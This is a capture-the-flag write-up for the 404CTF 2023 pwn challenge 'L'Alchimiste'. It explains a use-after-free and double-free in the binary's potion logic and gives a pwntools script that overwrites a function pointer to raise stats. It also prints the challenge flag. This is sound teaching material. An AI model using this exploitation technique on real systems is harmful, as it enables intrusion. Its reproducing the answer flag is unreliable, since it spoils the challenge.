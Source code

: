 ```yaml
---
title: CTFs | 404CTF2023 | Pwn | L'Alchimiste
author: Stillwolfing
date: 2023-06-13
categories: ['CTFs', '404CTF2023', 'Pwn']
tags: ['CTFs', '404CTF2023', 'Pwn']
permalink: /CTFs/404CTF2023/pwn/l_alchimiste
---
```


## Context

![context](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/context.png)

We connect to netcat to know more:

![context](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/nc.png)

We can:

1. Buy a strength elixir.
1. drink a strength elixir.
1. Talk to the alchemist.
1. show stats.
1. get the key.
1. get out.

If we try to get the key, we get:

![kay_fail](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/key_fail.png)

We don't have enough stats.

Here are our base stats:

![kay_fail](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/stats_base.png)

We have 100 in strength, 50 in mind and 100 golds.

We can buy a strength potion for 50 to get 10 strength.

Of course it's not enough to pass the test.

## Resolution

Let's use ghidra to analyze the executable.

### Character creation

Here is how the character is created:

![createCharacter](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/createCharacter.png)

*perso is the strength, *(perso + 4) is the mind and *(perso + 8) is gold. All three are integers.

### Bug

Here is a bug:

![double_free](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/double_free.png)

Why does this happen? Let's investigate !

### Buy Strength Potion

Here is the function to get another strength elixir:

![buyStrUpPotion](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/buyStrUpPotion.png)

The address of the function incStr is placed on at the address (perso + 0x10). Then if we have more than 50 gold, the value of gold is decreased by 50.

So buying a strength potion is just placing the address of the incStr function at (perso + 0x10).

### Use Item

The function to use the strength potion is this one:

![useItem](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/useItem.png)

We call the function placed at (perso + 0x10) + 0x40. Then we free the (perso + 0x10).

Now we can understand why the bug occurs. We buy a strength potion (allocate perso + 0x10, then place the address of incStr at perso + 0x10, then decrease 50 gold if enough).

Then we call the function useItem. Our strength is increased adn the address perso + 0x10 is freed.

When we call again the function useItem, our strength is increased (because the address value is not put to NULL before being released). Then we try to free it again even if it's already freed.

So, we get the double free.

### Exploit this bug

We can allocate and place the function without paying. So, we can repeatedly buy and use to increase our strength. This is a Use-After-Free (UAF) vulnerability.

### view_flag function

Here is the function view_flag:

![view_flag](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/view_flag.png)

To get the flag, we 150 in strength and 150 in mind. We need to find a way to increase our mind stat.

### send Message function

Here is the send message function.

![sendMessage](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/sendMessage.png)

Here we allocate 0x48 and do not free it afterward. So we call also do the use-after-free to increase the strength with this function and the useItem function (after buying of strength potion).

We can the address of the incInt function with Ghidra and replace the value where IncStr is placed with the address of incInt.

Then spam useItem and sendMessage to do a UAF with the incInt function instead.

Here my code to do it:

```python
import pwn

def send_receive(r, msg):
    r.sendline(msg)
    rep = r.recvuntil(b">>>").decode()
    print(rep)


def sendMsg(r, msg):
    r.sendline(b'3')
    r.recvuntil(b": ")
    r.sendline(msg)
    rep = r.recvuntil(b">>>").decode()
    print(rep)


def increase_str(r, num):
    
    send_receive(r, "1")
    send_receive(r, "2")

    for i in range(num - 1):
        sendMsg(r, "A")
        send_receive(r, "2")
    
    send_receive(r, "4")



def increase_int(r, num):
    payload = b"\x41" * 0x40 + pwn.p64(0x004008d5)
    sendMsg(r, payload)
    send_receive(r, "2")

    for i in range(num - 1):
        sendMsg(r, "A")
        send_receive(r, "2")
    send_receive(r, "4")
    

# Connect to the server
r = pwn.remote("challenges.404ctf.fr", 30944)

rep = r.recvuntil(b">>> ").decode()
print(rep)

increase_str(r, 5)

increase_int(r, 10)

r.sendline(b'5')
response = r.recvuntil(b"}")
print(response)

```

We increase our strength and our intelligence to 150 then we get the flag.

![flag](/assets/img/CTFs/404CTF2023/pwn/l_alchimiste/flag.png)

Flag: 404CTF{P0UrQU01_P4Y3r_QU4ND_135_M075_5UFF153N7}
